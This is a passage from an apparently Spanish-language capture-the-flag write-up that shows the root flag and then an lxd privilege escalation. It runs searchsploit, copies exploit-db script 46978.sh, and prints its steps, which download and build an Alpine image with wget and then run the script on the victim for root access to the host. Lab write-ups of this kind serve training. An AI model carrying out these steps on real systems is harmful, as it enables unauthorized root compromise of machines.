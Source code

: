 ## Root flag

```bash
# cd /root
# ls
root.txt
# cat root.txt
4d930091c31a622a7ed10f27999af363
# 
```

## lxd Privilege Escalation

```bash
❯ searchsploit lxd
---------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                |  Path
---------------------------------------------------------------------------------------------- ---------------------------------
Ubuntu 18.04 - 'lxd' Privilege Escalation                                                     | linux/local/46978.sh
---------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Vamos a usar el script en `Bash` que desarrollo `S4vitar` y `vowkin`

```bash
❯ searchsploit -m linux/local/46978.sh
  Exploit: Ubuntu 18.04 - 'lxd' Privilege Escalation
      URL: https://www.exploit-db.com/exploits/46978
     Path: /usr/share/exploitdb/exploits/linux/local/46978.sh
File Type: Bourne-Again shell script, UTF-8 Unicode text executable
```

```bash
❯ mv 46978.sh ldx_privelege_escalation-sh
```

Tenemos que seguir las instrucciones

```bash
❯ catn ldx_privelege_escalation-sh
#!/usr/bin/env bash

# ----------------------------------
# Authors: Marcelo Vazquez (S4vitar)
#	  Victor Lasa      (vowkin)
# ----------------------------------

# Step 1: Download build-alpine => wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine [Attacker Machine]
# Step 2: Build alpine => bash build-alpine (as root user) [Attacker Machine]
# Step 3: Run this script and you will get root [Victim Machine]
# Step 4: Once inside the container, navigate to /mnt/root to see all resources from the host machine
```
